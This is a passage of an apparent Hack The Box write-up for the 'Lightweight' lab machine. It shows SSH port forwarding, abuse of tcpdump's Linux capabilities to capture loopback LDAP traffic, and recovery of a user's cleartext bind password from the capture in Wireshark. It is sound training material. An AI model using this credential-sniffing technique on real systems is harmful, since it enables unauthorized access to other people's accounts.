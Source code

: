 Not much. Let’s move on to localhost:

```bash
ssh 127.0.0.1@lightweight.htb
```

Nope.

```bash
ssh ldapuser1@lightweight.htb
```

This failed. 

Let’s local port forward port 443:

```bash
ssh 10.10.16.7@lightweight.htb -L 443:localhost:443
```

Visiting https:

![image.png]({{ site.baseurl }}/assets/lightweight/image%205.png)

It’s the same exact web page.

Let’s use upload and execute linpeas:

```bash
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

![image.png]({{ site.baseurl }}/assets/lightweight/image%206.png)

- Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted.

Normally tcpdump can only be used by a privileged user, since we have the capabilities, we can also use it. Let’s start capturing traffic on our network interface, focus on ldap; many LDAP deployments accept unencrypted simple binds (username + password sent in cleartext) or carry queries and responses in plain text.

```bash
tcpdump -i lo port 389 -w capture.cap -v
```

Now while we wait, we can just navigate back to the site and play around, and click on other tabs to maybe force a reaction (waited a long time for packets, nothing got captured until we started interacting with the website again)

Let’s transfer the file back using scp:

```bash
scp 10.10.16.7@10.10.10.119:~/capture.pcap .
```

Now open the file in wireshark. If we go on the bind request packet, and expand the authentication tab, it will reveal the password of user ldapuser2:

![image.png]({{ site.baseurl }}/assets/lightweight/image%207.png)
